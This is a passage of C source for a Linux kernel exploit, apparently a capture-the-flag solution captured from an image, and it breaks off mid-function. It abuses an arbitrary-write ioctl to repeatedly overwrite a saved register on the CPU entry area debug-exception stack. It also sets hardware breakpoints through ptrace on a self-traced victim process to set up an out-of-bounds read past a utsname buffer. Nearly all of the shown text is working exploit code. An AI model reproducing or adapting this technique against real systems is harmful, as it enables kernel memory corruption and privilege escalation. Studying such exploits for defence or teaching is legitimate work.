 ```c
    size_t addr;
    size_t value;
} request;

void abty_write(size_t addr, size_t value)
{
    request q = {
        .addr = addr,
        .value = value,
    };

    ioctl(dev_fd, 0, &q);
}

void trigger()
{
    bind_core(1);
    while (1)
    {
        abty_write(CPU_ENTRY_AREA_DB_STACK_RCX_ADDR, 0x400 / 8);
    }
}

// 创建hardware breakpoint
void create_hbp(pid_t hbp_pid, void *addr)
{
    // Set DR0: HBP address
    if (ptrace(PTRACE_POKEUSER, hbp_pid, offsetof(struct user, u_debugreg), addr) == -1)
    {
        printf("Could not create hbp! ptrace dr0: %m\n");
        kill(hbp_pid, 9);
        exit(1);
    }
    /* Set DR7: bit 0 enables DR0 breakpoint. Bit 8 ensures the processor stops on the instruction which causes the exception.
     * bits 16,17 means we stop on data read or write. Bits 18,19 say we watch 4 bytes. Why 4 bytes? Well, it's convenient to
     * hit 4 DB exceptions per syscall. Why not 8 bytes? Because 4 bytes works fine. */
    if (ptrace(PTRACE_POKEUSER, hbp_pid, offsetof(struct user, u_debugreg) + 56, 0xf0101) == -1)
    {
        printf("Could not create hbp! ptrace dr7: %m\n");
        kill(hbp_pid, 9);
        exit(1);
    }
}

void victim()
{
    bind_core(0);

    int step = 0;

    if (ptrace(PTRACE_TRACEME, 0, NULL, NULL) < 0)
    {
        err_exit("Failed to ptraceme.");
    };

    struct utsname *name = (struct utsname *)buffer;
    int oob_index = (sizeof(struct utsname) / 8) + 1;
    // int oob_index = (sizeof(struct utsname) + (sizeof(size_t) - 1)) / sizeof(size_t);
    while (1)
    {
        raise(SIGSTOP);
```